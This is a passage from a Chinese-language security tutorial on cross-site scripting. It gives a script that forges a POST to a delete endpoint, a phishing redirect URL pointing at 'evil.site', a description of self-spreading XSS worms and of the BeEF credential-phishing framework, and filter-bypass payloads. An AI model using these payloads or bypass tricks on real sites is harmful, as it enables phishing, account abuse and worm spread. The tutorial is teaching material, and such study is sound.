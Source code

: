 ```
var form = document.createElement('form');
form.method = 'POST';
form.action = 'http://blog.example.com/del';
document.body.appendChild(form);
var il = document.createElement("input");
il.name = 'id';
il.value = '123';
form.appendChild(il);
form.submit();
```
该方法只能提交表单形式的请求，如果需要提交更复杂的数据格式的请求，就需要用到XMLHttpRequest或Fetch API。如需提交一个JSON格式的数据到服务端，则可以使用如下代码：
```
var xhr = new XMLHttpRequest();
var json = {
    "json":"123"
};
xhr.open('POST','/del');
xhr.setRequestHeader('Content-Type','application/json');
xhr.send(JSON.stringify(json));
```
#### XSS钓鱼
很多论坛和即时聊天软件都有识别可信URL的功能，其基本思路上都是判断URL中的域名是否在已知的白名单列表中，以及阻止发送站外链接。如果一个可信的域名存在XSS漏洞，可以非常简单地通过XSS实现URL跳转。攻击者构造一个可信域名的URL，受害者点击就会跳转到恶意网站。
```
http://example.com//echo.php?name=<script>window.location='http://evil.site';</script>
```
将用户从一个可信网站跳转到一个恶意网站，从而实现钓鱼攻击。
#### XSS攻击平台
XSS攻击能实现非常多的功能，包括获取浏览器的扩展、计算机信息，还能探测开放端口。为了方便研究许多安全研究者将许多功能封装起来做成XSS攻击平台。
`BeEF`是其中一个非常有名的XSS攻击平台，内置的社会工程学模块可以伪造多种不同的登录钓鱼框，用来窃取受害者的账号及密码。
## XSS蠕虫
以往的蠕虫是利用服务端软件或系统漏洞进行传播的。例如17年的WannaCry(永恒之蓝)，利用Windows SMB(TCP 445)服务的漏洞感染可百万用户。
XSS蠕虫利用style属性构造XSS Payload：
`<div style="background:url('javascript:alert(1)')">
通过拆分法绕过对"javascript","onreadystatechange"等敏感词的过滤
通过AJAX构造POST请求添加自己的名字，同时复制蠕虫进行传播。
XSS蠕虫最重要的目的是要实现XSS Payload的自动扩散。XSS蠕虫通过修改当前用户的个人简介，并将XSS Payload插入当前用户的个人简介，当其他用户访问该哦那个户的简介时，XSS Payload就又会被执行。
反射型XSS或DOM型XSS漏洞也能实现XSS蠕虫，但需要受害者点击才能执行。
## XSS攻击技巧
在实际场景中，并不是所有的场景都可以直接嵌入\<script>标签的，需要一些绕过技巧。
### 基本的变形
+ 最简单的变形就是更改字母的大小写。HTML标签对大小写不敏感
+ 如果应用中的过滤函数只是简单地检测参数中有没有\<script>特征，可以通过填充空白字符(空格、制表符、换行)进行绕过：

`<script 
 >alert (document.domain)</script>`
 